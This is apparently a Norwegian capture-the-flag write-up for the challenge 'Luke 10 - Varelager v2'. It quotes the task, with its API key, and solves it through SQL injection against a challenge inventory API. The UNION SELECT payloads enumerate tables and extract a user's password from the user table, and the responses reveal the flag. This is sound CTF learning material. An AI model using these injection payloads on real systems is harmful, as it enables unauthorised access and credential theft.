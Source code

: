 # Luke 10 - Varelager v2

```
Alvebetjent Eline har oppgradert varelageret til v2 etter at det ble oppdaget litt muffins i versjon 1. Som en del av videreutviklingen har hun slått sammen v2 med resten av bruker-systemene til NPST, slik at det ikke trengs mange ulike databaser oppe i skyene.

Har du mulighet til å sjekke at alt funker som det skal etter Elines oppgradering?

Varelageret finner du som vanlig her, og bruk programmeringsgrensesnittnøkkel v2_vr7n0p1tf7.

Mvh Mellomleder
```

## Løsning

Igjen er det SQL injection. Denne gangen fra en annen tabell. brukertabellen

Passordet til Alvebetjent Eline er løsningsordet.

Igjen gjør vi spørringene i postman slik at debugging blir enklere.
`POST` spørring til `https://varelager.p26e.dev/api/search`

### Schema Request 
```json
{
    "search":"spilleringenrolle' UNION (SELECT null, TABLE_NAME, null, null, TABLE_SCHEMA, null FROM information_schema.columns where TABLE_SCHEMA = 'v2') ;--%;",
    "key":"v2_vr7n0p1tf7"
}
```

### Schema Response
```json
[
  {
    "id": null,
    "navn": "ting",
    "antall": null,
    "enhet": null,
    "kommentar": "v2",
    "flagg": null
  },
  {
    "id": null,
    "navn": "brukere",
    "antall": null,
    "enhet": null,
    "kommentar": "v2",
    "flagg": null
  }
]
```

### Brukertabell Request
```json
{
    "search":"spilleringenrolle' UNION (SELECT id, navn, null, null, passord, null FROM v2.brukere WHERE navn = 'Eline');--%;",
    "key":"v2_vr7n0p1tf7"
}
```

### Brukertabell Response
```json
[
  {
    "id": "5e50ae53-2f54-477c-9eea-e5ef28e9ad58",
    "navn": "Eline",
    "antall": null,
    "enhet": null,
    "kommentar": "PST{c3ce11494e56a8897b6f80d1ca3dbe}",
    "flagg": null
  }
]
```

Flagg: `PST{c3ce11494e56a8897b6f80d1ca3dbe}`